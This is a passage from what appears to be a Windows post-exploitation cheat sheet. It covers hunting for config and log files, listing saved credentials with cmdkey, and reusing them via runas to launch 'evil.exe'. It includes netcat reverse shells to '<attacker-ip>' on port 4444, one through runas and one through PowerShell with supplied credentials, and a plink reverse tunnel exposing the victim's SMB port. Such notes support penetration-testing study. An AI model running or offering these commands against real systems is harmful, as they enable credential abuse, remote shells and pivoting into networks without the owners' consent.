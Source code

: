 ```cmd
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
IIS and Apache logs?
```cmd
dir /s access.log error.log
C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC2\u_ex[YYMMDD].log
```
If XAMPP/WAMPP, Apache, or PHP is installed check the config files
```
dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf
```

Check for stored creds with cmdkey
```cmd
cmdkey /list
```
Then you can run something like this over SMB with any saved credientials
```cmd
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```
Or you can use runas and feed it credentials
```cmd
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
```powershell
$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```


### Networking

Check the simple stuff...
```cmd
ipconfig /all
route print 
arp -a 
net share
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
```

Some services might be open on the outside or the inside only of the network. Look for local address 127.0.0.1 or something internal.
```cmd
netstat /a
netstat -ano
```
So to expose SMB on a victim for example, upload plink.exe from /usr/share/windows-binaries, start SSH on attacker machine then on victim run
```cmd
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```
